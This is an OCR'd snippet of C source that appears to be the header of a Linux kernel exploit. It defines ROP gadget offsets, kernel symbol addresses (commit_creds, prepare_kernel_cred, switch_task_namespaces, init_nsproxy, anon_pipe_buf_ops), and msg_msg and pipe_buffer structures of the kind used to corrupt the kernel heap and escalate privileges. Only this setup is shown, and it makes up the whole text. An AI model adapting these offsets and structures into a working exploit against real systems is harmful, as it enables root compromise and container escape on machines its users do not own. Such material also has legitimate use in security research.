 ```c
#define POP_RCX_RET 0x5e5c73                                        // 0xffffffff81439b92: pop rcx; ret;          \x59\xc3     fault when debug, cannot use   $ objdump -d ./vmlinux_small -M intel | grep  "59 c3"  -> ffffffff815e5c72:	e8 59 c3 fe ff       	call   0xffffffff815d1fd0
#define POP_RSI_RET 0xb105e                                         // 0xffffffff810b105e: pop rsi; ret;
#define POP_RDI_RET 0x8c650                                         // 0xffffffff8108c650: pop rdi; ret;
#define POP_RBP_RET 0x69e                                           // 0xffffffff8100069e: pop rbp; ret;

#define MOV_RDI_RAX_JNE_XOR_EAX_EAX_RET 0x588d54                    // 0xffffffff81588d54: mov rdi, rax; jne 0x788d41; xor eax, eax; ret;
#define CMP_RCX_4_JNE_POP_RBP_RET 0x7459b                           // 0xffffffff8107459b: cmp rcx, 4; jne 0x274579; pop rbp; ret; 

#define FIND_TASK_BY_VPID 0xc0a40           // ffffffff810c0a40 T find_task_by_vpid
#define SWITCH_TASK_NAMESPACES 0xc8ad0      // ffffffff810c8ad0 T switch_task_namespaces
#define COMMIT_CREDS 0xc9f00                // ffffffff810c9f00 T commit_creds
#define PREPARE_KERNEL_CRED 0xca3e0         // ffffffff810ca3e0 T prepare_kernel_cred

#define ANON_PIPE_BUF_OPS 0x123e140         // ffffffff8223e140 r anon_pipe_buf_ops
#define INIT_NSPROXY 0x186b540              // ffffffff8286b540 D init_nsproxy

// clang-format on

#define SKB_SHARED_INFO_SIZE 0x140
#define MSG_MSG_SIZE (sizeof(struct msg_msg))
#define MSG_MSGSEG_SIZE (sizeof(struct msg_msgseg))

struct msg_msg {
  uint64_t m_list_next;
  uint64_t m_list_prev;
  uint64_t m_type;
  uint64_t m_ts;
  uint64_t next;
  uint64_t security;
};

struct msg_msgseg {
  uint64_t next;
};

struct pipe_buffer {
  uint64_t page;
  uint32_t offset;
  uint32_t len;
  uint64_t ops;
  uint32_t flags;
  uint32_t pad;
  uint64_t private;
};

struct pipe_buf_operations {
  uint64_t confirm;
  uint64_t release;
  uint64_t steal;
  uint64_t get;
};

struct {
  long mtype;
  char mtext[PRIMARY_SIZE - MSG_MSG_SIZE];
} msg_primary;
```